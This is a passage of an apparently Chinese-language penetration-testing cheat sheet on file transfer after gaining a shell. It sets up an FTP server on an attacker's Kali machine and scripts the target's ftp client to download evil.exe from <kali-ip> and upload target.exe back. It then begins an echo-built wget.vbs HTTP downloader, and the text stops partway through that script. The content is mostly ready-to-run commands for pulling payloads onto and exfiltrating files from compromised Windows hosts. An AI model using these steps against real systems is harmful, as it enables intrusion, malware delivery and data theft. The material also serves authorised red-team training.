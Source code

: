 
**ftp**

- **攻击端**
    ```bash
    apt-get install pure-ftpd

    groupadd ftpgroup
    useradd -g ftpgroup -d /dev/null -s /etc ftpuser
    pure-pw useradd username -u ftpuser -d /ftphome
    pure-pw mkdb
    cd /etc/pure-ftpd/auth/
    ln -s ../conf/PureDB 60pdb
    mkdir -p /ftphome
    chown -R ftpuser:ftpgroup /ftphome/
    /etc/init.d/pure-ftpd restart
    ./setup-ftp(输入要设置的密码)
    ```

    目标机的远程 shell 上运行
    ```bash
    echo open <kali-ip> 21> ftp.txt
    echo username>> ftp.txt
    echo password>> ftp.txt
    echo bin >> ftp.txt
    echo GET evil.exe >> ftp.txt
    echo bye >> ftp.txt
    ftp -s:ftp.txt
    ```

    目标机上传文件(连接状态):
    ```bash
    ftp> put target.exe(如果是 windows 且文件在其他盘,需使用绝对路径)
    ```

    关闭 ftp:
    ```bash
    /etc/init.d/pure-ftpd stop
    ```

    攻击端使用 python 起 ftp:
    ```
    apt-get install python-pyftpdlib
    mkdir /ftp
    cd /ftp/
    python -m pyftpdlib -p 21
    ```
    此时目标机连接的时候,用户名为 anonymous,密码随意

**vbscript**

```vb
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo strFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
```